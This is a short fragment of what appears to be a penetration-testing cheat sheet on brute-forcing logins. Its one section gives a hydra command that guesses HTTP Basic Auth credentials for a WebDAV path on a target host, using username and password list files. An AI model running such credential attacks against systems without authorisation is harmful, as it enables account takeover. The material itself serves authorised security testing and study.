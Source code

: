 # Brute Force Cheat Sheet

### HTTP Basic Auth

```bash
hydra -L users.txt -P password.txt $TARGET http-get /webdav/
```



